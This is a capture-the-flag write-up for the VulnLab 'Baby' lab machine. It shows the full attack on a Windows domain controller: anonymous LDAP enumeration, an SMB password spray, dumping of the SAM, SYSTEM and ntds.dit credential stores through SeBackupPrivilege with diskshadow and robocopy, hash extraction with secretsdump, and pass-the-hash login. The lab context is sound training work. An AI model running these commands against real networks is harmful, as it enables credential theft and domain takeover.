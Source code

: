 ```yaml
---
title: "VulnLab - Baby Writeup"
date: 2023-11-22
categories: ["Security"]
tags: ["CTF", "Writeup", "AD"]
---
```

![Baby Thumbnail](security/vulnlab/baby/vl-baby.png)

This is a write-up of the Baby machine on [VulnLab](https://www.vulnlab.com/) by xct. This box deals with anonymous LDAP enumeration, and exploitation of the SeBackupPrivilege to exfiltrate and crack user hashes.

## User

Hint: `Look into anonymous LDAP Access.`

I started by performing an nmap scan of the machine, and got the following results:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 01:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-11-15T01:01:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-15T01:01:02+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2023-07-29T07:48:30
|_Not valid after:  2024-01-28T07:48:30
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-15T01:01:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This gives us some helpful information such as the name of the domain and host we're working with (DC=baby,DC=vl), and running services.

### LDAP Enumeration

I utilized nmap to dump information about the domain with `nmap -n -sV --script "ldap* and not brute" -Pn IP`, and ldapsearch to dump the users with `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl" > ldap-dump.txt` where we found a notable user:

```
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to REDACTED
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0
```

Teresa Bell had a password in the description for her user (redacted for walkthrough), but trying to connect with EvilWinRM failed due to not having the correct password, I decided to use CrackMapExec to spray these credentials across the other valid users we pulled from LDAP. 

### SMB Password Spray

Before we're able to spray the password we found we need to build a list of valid users, I did this by parsing the LDAP dump to pull out usernames in a format CME can read with `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1`:

```
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ian.Walker
```

I used CrackMapExec to perform an SMB password spray against those users with `crackmapexec smb IP -u ./users.txt -p PASSWORD --shares`:

![SMB Password Spray](security/vulnlab/baby/cme-smb-passwd-spray.png)

From this, we see that the password works on Caroline Robinson's account, but her password needs to be changed.

### Getting the Flag

Before we can login, we have to change the account's password. I utilized smbpasswd for this using `smbpasswd -r IP -U USER`. Next, we can login using EvilWinRM and get the user flag with `evil-winrm -i IP -u Caroline.Robinson -p PASSWORD`:

![User Flag](security/vulnlab/baby/user-flag.png)

## Root

Hint: `Look at user privileges.`

I started by enumerating the permissions of our Caroline.Robinson user with `whoami /priv`:

![Initial Permissions](security/vulnlab/baby/initial-privs.png)

### SeBackupPrivilege

Of note is the SeBackupPrivilege allows a user to backup any file on a machine, regardless of permissions. This includes things like the sam and system files which we can feed into secretsdump or mimikatz to extract user hashes. I moved into a directory where the user had write permissions and made copies of the sam and system files to download onto my machine with `reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\temp\system`, and downloaded them with smbclient.

I then fed the files into mimikatz and got the following hashes:

![Local Hashes](security/vulnlab/baby/local-creds.png)

However, when attempting to pass the Administrator hash to login with `evil-winrm -i IP -u 'administrator' -H 'HASH'`, it doesn't work because these are local accounts as opposed to domain accounts. To get the domain administrator hash that we need to log in, we have to use the SeBackupPrivilege to dump the ntds.dit file which is a database containing AD information including user objects. 

### Getting the Flag

We can make a copy of ntds.dit and dump it using diskshadow and robocopy.

I first created the following script to run with diskshadow, saved as `backup.txt`:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

I ran it with `diskshadow /s backup.txt`, and was able to dump the ntds.dit with `robocopy /b E:\Windows\ntds . ntds.dit`. Feeding those into secretsdump with `impacket-secretsdump -ntds ntds.dit -system system.hive local` we get the domain administrator hash which we can pass to login and get the root flag:

![Root Flag](security/vulnlab/baby/root-flag.png)
